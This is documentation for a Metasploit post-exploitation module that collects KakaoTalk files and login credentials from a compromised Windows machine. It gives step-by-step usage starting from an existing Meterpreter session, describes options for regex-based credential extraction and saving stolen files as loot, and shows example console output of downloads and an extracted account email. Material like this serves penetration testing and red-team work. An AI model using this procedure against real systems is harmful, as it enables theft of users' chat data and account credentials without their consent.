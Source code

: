 ## Module Description

This post-exploitation module gathers artifacts found on KakaoTalk related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/kakaotalk
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/kakaotalk) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Kakao's parent folder found
[*] Kakao's Login_list.dat file found
[*] Downloading C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users\login_list.dat
[*] Kakao Login_list.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513053411_default_192.168.56.106_Kakaologin_list._899884.dat

[+] login_list|**********@gmail.com
[+] File with credentials saved:  /root/.msf4/loot/20210513053412_default_192.168.56.106_EXTRACTIONlogin__547610.dat
[*] Kakao's parent folder found
[*] Kakao's * file found
[*] Downloading C:\Users\IEUser\Documents\KakaoTalk Downloads\AppleEvent.pages
[*] Kakao Appleevent.pages downloaded
[+] File saved to:  /root/.msf4/loot/20210513053412_default_192.168.56.106_KakaoAppleEvent._605437.bin

[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```

### Verbose Output
  ```
msf6 post(windows/gather/kakaotalk) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Starting Packrat...
[*] Kakao's parent folder found
[*] Kakao's Login_list.dat file found
[*] Processing C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users
[*] Downloading C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users\login_list.dat
[*] Kakao Login_list.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513053709_default_192.168.56.106_Kakaologin_list._746567.dat

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] login_list|**********@gmail.com
[+] File with credentials saved:  /root/.msf4/loot/20210513053709_default_192.168.56.106_EXTRACTIONlogin__448569.dat
[*] Kakao's parent folder found
[*] Kakao's * file found
[*] Processing C:\Users\IEUser\Documents\KakaoTalk Downloads
[*] Downloading C:\Users\IEUser\Documents\KakaoTalk Downloads\AppleEvent.pages
[*] Kakao Appleevent.pages downloaded
[+] File saved to:  /root/.msf4/loot/20210513053709_default_192.168.56.106_KakaoAppleEvent._975441.bin

[-] This artifact does not support any extraction type
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

